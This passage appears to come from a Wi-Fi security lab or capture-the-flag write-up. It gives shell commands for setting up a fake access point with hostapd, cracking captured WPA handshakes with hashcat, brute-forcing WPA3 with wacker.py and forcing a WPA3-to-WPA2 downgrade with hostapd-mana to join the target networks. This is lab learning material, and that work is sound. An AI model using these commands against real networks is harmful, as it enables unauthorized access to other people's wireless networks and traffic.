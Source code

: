 ``` bash
# Fake AP configuration file for hostapd
cat > hostapd.conf <<EOF
interface=wlan0mon
ssid=wifi-offices
channel=6
EOF

sudo hostapd hostapd.conf
```

With the captured handshake, we use **hashcat** to crack the password:

``` bash
hashcat -m 2500 offices.hccapx wordlist.txt
```

Password recovered → connect and obtain flag.

------------------------------------------------------------------------

## Challenge 10--12

(Similar methodology: recon, capture, exploit; included in lab but
details shortened here.)

------------------------------------------------------------------------

## Challenge 13: wifi-challenge

We exploit with **wacker.py**:

``` bash
python3 wacker.py -i wlan0mon -b <BSSID> -e <SSID> -c <channel> -w wordlist.txt
```

Then connect with `dhclient <interface> -v` and access the router web
interface to get the flag.

------------------------------------------------------------------------

## Challenge 14: wifi-IT (WPA3 Downgrade)

This network allows WPA3→WPA2 downgrade. We use **hostapd-mana**.

``` bash
sudo hostapd-mana hostapd-mana.conf
```

We capture WPA2 handshake and crack with hashcat. Once the password is
recovered:

``` bash
sudo wpa_supplicant -i wlan1 -c wifi-it.conf -B
sudo dhclient wlan1
```
